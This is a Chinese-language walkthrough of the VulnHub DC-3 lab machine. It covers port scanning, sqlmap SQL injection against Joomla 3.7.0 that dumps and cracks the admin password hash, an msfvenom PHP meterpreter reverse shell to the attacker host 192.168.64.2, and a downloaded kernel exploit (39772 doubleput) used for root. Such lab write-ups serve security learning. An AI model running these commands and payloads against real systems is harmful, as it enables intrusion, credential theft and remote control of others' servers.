# 目标

get **flags**

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn --max-rate 10000
```

靶机的IP地址是`192.168.64.38`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.38 -sS -sV -Pn -p- --max-rate 10000
```


**TCP connection扫描**
```shell
nmap 192.168.64.38 -sT -sV -Pn -p- --max-rate 10000
```


**UDP扫描**
```shell
nmap 192.168.64.38 -sU -sV -Pn --top-ports 100 --max-rate 10000
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.38 -sV -sC -O -p 80,2 -oA nmap-scan/default
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.38 -sV --script vuln -O -p 80,2 -oA nmap-scan/vuln
```

有很多信息。

## 1.3 80端口获取信息
**访问`http://192.168.64.38`**

首页就是告诉我们这次只有一个flag，需要的就是root权限。而且应该跟系统的版本也有关系，可能需要用到内核漏洞。

这是CMS, `Joomla`

**扫描Joomla**
```shell
joomscan --url http://192.168.64.38 -ec
```
```text
[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Checking Directory Listing
[++] directory has directory listing : 
http://192.168.64.38/administrator/components
http://192.168.64.38/administrator/modules
http://192.168.64.38/administrator/templates
http://192.168.64.38/images/banners

[+] admin finder
[++] Admin page : http://192.168.64.38/administrator/
```

**寻找当前版本的Joomla漏洞**
```shell
searchsploit joomla 3.7
```

有个sql注入，尝试一下，`44227.php`我不知道为啥使用不了, 还是使用*sqlmap*:

*查询有哪些数据集*
```shell
sqlmap -u "http://192.168.64.38/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1" --batch --level=5 --risk=3 --random-agent --dbs
```
```text
[*] information_schema
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
```
*去查看一下joomladb里面有哪些表格*
```shell
sqlmap -u "http://192.168.64.38/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1" --batch --level=5 --risk=3 --random-agent -D joomladb --tables
```
*挑选里面的 **#__users** 表*
```shell
sqlmap -u "http://192.168.64.38/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1" --batch --level=5 --risk=3 --random-agent -p list[fullordering] -D joomladb -T '#__users' --common-columns --dump
```
```text
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| name     | non-numeric |
| email    | non-numeric |
| id       | numeric     |
| params   | non-numeric |
| password | non-numeric |
| username | non-numeric |
+----------+-------------+
```
*查询上面的字段*
```shell
sqlmap -u "http://192.168.64.38/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1" --batch --level=5 --risk=3 --random-agent -p list[fullordering] -D joomladb -T '#__users' -C "id,name,email,params,password,username" --dump --dump-format=CSV --output-dir ./sql
```
- id: `629`
- name: `admin`
- email: `freddy@norealaddress.net`
- username: `admin`
- password: `$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu`
找到admin用户了，可以使用john来破解一下，
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt passwd.hash
```

成功破解，获得用户名与密码，
- username: `admin`
- password: `snoopy`

---

# 2.建立系统立足点
**登陆CMS**
使用这个地址登陆，`http://192.168.64.38/administrator`

使用msfvenom来生成php反弹脚本，
```shell
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.64.2 lport=1025 -f raw -o reverse_tcp.php
```

使用msf监听本地1025端口
```shell
msf > use exploit/multi/handler
msf() > set lhost 192.168.64.2
msf() > set lport 1025
msf() > set payload php/meterpreter/reverse_tcp
msf() > run
```

**将`reverse_tcp.php`内容上传到网站上去**

刷新页面


成功建立反弹连接。

---

# 3.系统提权

根据上面的提示，提权很有可能用到的就是内核漏洞。
```shell
# 内核版本
uname -a
## Linux DC-3 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux

# 32/64位
uname -m
## i686

# 系统版本
cat /etc/os-release
## NAME="Ubuntu"
## VERSION="16.04 LTS (Xenial Xerus)"
## ID=ubuntu
## ID_LIKE=debian
## PRETTY_NAME="Ubuntu 16.04 LTS"
## VERSION_ID="16.04"
```
搜索一下漏洞，


可以使用*39772*这个。

下载下来一个zip文件，本地开启一个简单的http服务，靶机上面
```shell
cd /tmp
wget http://192.168.64.2/39772.tar # 这里我重新打包成tar了
```
进入exploit文件夹，运行`compile.sh`，然后再运行`doubleput`。(我在当前文件夹里面运行一次，好像不太行，然后我移动了`doubleput`, `hello`, `suidhelper`到另一个新的文件夹里面，然后运行`doubleput`，就成功了。可能是要运行多次，可以加一个循环。)



---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**DC-3**: 
- website: `https://www.vulnhub.com/entry/dc-32,312/`
- IP: `192.168.64.38`
- CPU Arch: `i686`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐